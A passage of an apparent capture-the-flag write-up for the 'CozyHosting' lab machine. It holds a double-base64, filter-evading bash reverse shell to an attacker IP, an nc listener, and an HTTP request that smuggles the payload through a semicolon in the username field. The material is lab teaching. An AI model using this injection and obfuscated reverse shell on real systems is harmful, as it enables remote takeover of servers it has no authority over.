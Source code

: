 #### Prepare Exploit
For me as a beginner it was quite challenging to create a payload without spaces. 
Finally, I found a solution from [hacktricks](https://hacktricks.boitatech.com.br/linux-unix/useful-linux-commands/bypass-bash-restrictions#bypass-forbidden-spaces). Thanks mate!
``` shell

# first craft the payload
echo "echo $(echo 'bash -i >& /dev/tcp/10.10.16.23/1234 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'

# payload ready for exploitation
echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0eU15OHhNak0wSURBK0pqRUsK|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```

#### Exploit reverse shell

Prepare `nc` listener
``` shell
nc -lvnp 1234
```

Exploit
``` HTTP

POST /executessh HTTP/1.1
Host: cozyhosting.htb
Content-Length: 172
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://cozyhosting.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://cozyhosting.htb/admin?error=Host%20key%20verification%20failed.
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=F4047C18D5306FC458AEDD5A36821ACB
Connection: close

host=10.10.11.230&username=;echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0eE1DOHhNak0wSURBK0pqRUsK|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h;
```

### Inside as user `app` 

After successful exploitation, we're logged in as user `app`. No flag for now... let's see...

The only non-root user is named `josh`, I bet he keeps our first flag.

Within our home directory we find a .jar file looking like containing the webapp we just exploited.
#### download cloudhosting-0.0.1.jar
